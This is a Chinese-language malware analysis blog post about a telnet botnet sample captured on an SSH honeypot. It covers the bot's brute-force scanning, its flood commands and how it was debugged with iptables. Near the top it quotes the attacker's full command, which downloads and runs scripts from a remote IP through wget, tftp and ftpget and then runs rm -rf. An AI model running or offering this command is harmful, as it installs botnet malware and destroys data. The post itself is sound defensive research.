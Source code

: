 ```yaml
---
title: "MalwareMustDie Gucci样本分析"
date: 2017-12-09
---
```


# 0x00 背景

在ssh蜜罐上捕获到恶意样本，执行的命令如下：

{% highlight bash %}
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://212.47.239.249/justyzoat.sh; chmod 777 justyzoat.sh; sh justyzoat.sh; tftp 212.47.239.249 -c get tutftp1.sh; chmod 777 tutftp1.sh; sh tutftp1.sh; tftp -r tutftp2.sh -g 212.47.239.249; chmod 777 tutftp2.sh; sh tutftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 212.47.239.249 tuftp1.sh tuftp1.sh; sh tuftp1.sh; rm -rf justyzoat.sh tutftp1.sh tutftp2.sh tuftp1.sh; rm -rf *
{% endhighlight %}

后续分析过程中只能下载该ip的justyzoat.sh：

![][1]

从ip下载不同架构上的二进制恶意样本，实现的功能都是telnet botnet的被控端，等待接收主控端ip的指令并执行。虽然该ip地址现已无法连接，并且主控端的ip被硬编码在二进制文件中，但是在[psbdmp.ws](http://psbdmp.ws/KPgFrxAw)上发现了疑似攻击者用来扫描ssh弱口令并执行命令的脚本，所以只要攻击者还会有所行动，ssh蜜罐还是可以捕获到的。

这个wget样本是ELF32文件，接下来会对该样本进行静态分析，并使用iptables对其控制调试。在分析完该样本后，我更愿意把它叫做gucci样本。

# 0x01 静态分析功能

样本是静态链接，又没strip，所以IDA反汇编看起来很轻松。

![][2]

## 接收指令部分

1. 每5秒调用initConnection函数，去主动连接主控端ip 212.47.239.249的23端口：

    ![][3]

2. recvLine函数接收指令后，指令需要满足"`!XXX cmd arg1 arg2 arg3 …`"的格式才能传递给processCmd函数执行对应功能。
3. 在判断cmd时稍微混淆了一下，本质还是cmp后进入对应逻辑：

    ![][4]

## HTP指令

1. HTP指令可接收2个参数，参数2（默认值为500）只要大于0就会调用htp(100,arg1)函数，来扫描公网ip 23端口的弱口令，并report给主控端。
2. htp函数的100用来设置扫描过程中timeout的微秒值，函数内部会调用getdtablesize函数和arg1比较，取较大值作为扫描的并发数。

    ![][5]

3. 扫描过程中每个文件描述符所用的结构体如下：

    ![][6]

4. 在爆破弱口令过程中，判断是否符合条件的字符串表如下：

    ![][7]

    htp函数中先是并发去连接公网ip的23端口，然后接收消息查看是否包含advances中的字符串，接着爆破弱口令，传递完账号密码后先判断是否有advances2字符串，然后判断是否有fails字符串，最后再判断是否有successes字符串。所以响应中有”#”时才会被认定为爆破成功。

5. 爆破成功后默认会发送"`REPORT ip:username:password`"至主控端sock。最后会发送相同的命令使主机执行justyzoat.sh。

    ![][8]

## UDP指令

1. UDP指令可接收6个参数，可对指定ip进行UDP flood。
2. 参数1为要攻击的ip地址，可为多个ip地址使用"`,`"分割。
3. 参数2为要攻击的端口，如果为0则随机生成目的端口。
4. 参数3为攻击持续的时间。
5. 参数4决定是否伪造源ip地址，不可大于32，如果为32则不伪造源ip地址，否则会被传递给getRandomIP函数。
6. 参数5为udp数据包中data的长度，不可大于65500，会被传递给makeRandomStr函数生成随机字符串。
7. 参数6为每一次攻击sendto数据包的次数。

![][9]

## TCP指令

1. TCP指令可接收7个参数，可对指定ip进行TCP flood。
2. 参数1,2,3的功能和UDP指令相同，参数4也不可大于32，但是默认会伪造源ip地址。
3. 参数5指定TCP数据包的标志位，有"`all,syn,rst,fin,ack,psh,urg`"这7种，可以使用"`,`"组合。
4. 参数6,7则与UDP指令的参数5,6功能相同。

## HTTP指令

1. HTTP指令需要接收6个参数，可对指定的host进行HTTP flood。
2. 参数1指定HTTP method，参数2指定host，参数3指定port，参数4指定URL，参数5指定攻击持续的时间，参数6指定fork并发的数量。

![][10]

## STD指令

1. STD指令需要接收3个参数，可发送带有69字节data的UDP数据包。
2. 参数1为要发送的hostname，多个可以用"`,`"分割，参数2指定网络字节序的port，参数3指定持续发包的时间。

![][11]

## DIE指令

1. DIE指令是直接退出，结束被控端。

# 0x02 动态调试时使用iptables

在主动连接过程中，因为是直接tcp连接硬编码的主控端ip地址，所以使用iptables做一下DNAT，也方便在本地控制调试被控端：

{% highlight bash %}
sudo iptables -t nat -A OUTPUT -d 212.47.239.249 -j DNAT --to-destination 127.0.0.1
{% endhighlight %}

在调试HTP指令时，为了不让我们的主机去扫描公网的23端口，还是借用iptables再做一次DNAT：

{% highlight bash %}
sudo iptables -t nat -A OUTPUT -p tcp --dport 23 -j DNAT --to-destination 127.0.0.2
{% endhighlight %}

所以在127.0.0.2我们可以监听端口，伪造一个可以登录的服务，可以记录到被控端向主控端上报爆破成功信息：

![][12]

但是其并发数一次性太高，索性gdb attach子进程，在getRandomPublicIP函数处下断点，并且patch原程序增大timeout等待时间（iptables处理耗时），这样也好查看流量，最终在伪造的23端口服务端可以看到其接受的消息：

![][13]

# 0x03 其他

1. 在HTTP flood中host的设定是没有加上端口的，在某些情况下会有点问题。
2. 可以使用nc连接主控端的23端口，实现一个简单的下发指令监控。

[1]: http://ojyzyrhpd.bkt.clouddn.com/20171209/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20171209/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20171209/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20171209/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20171209/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20171209/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20171209/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20171209/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20171209/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20171209/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20171209/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20171209/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20171209/13.png
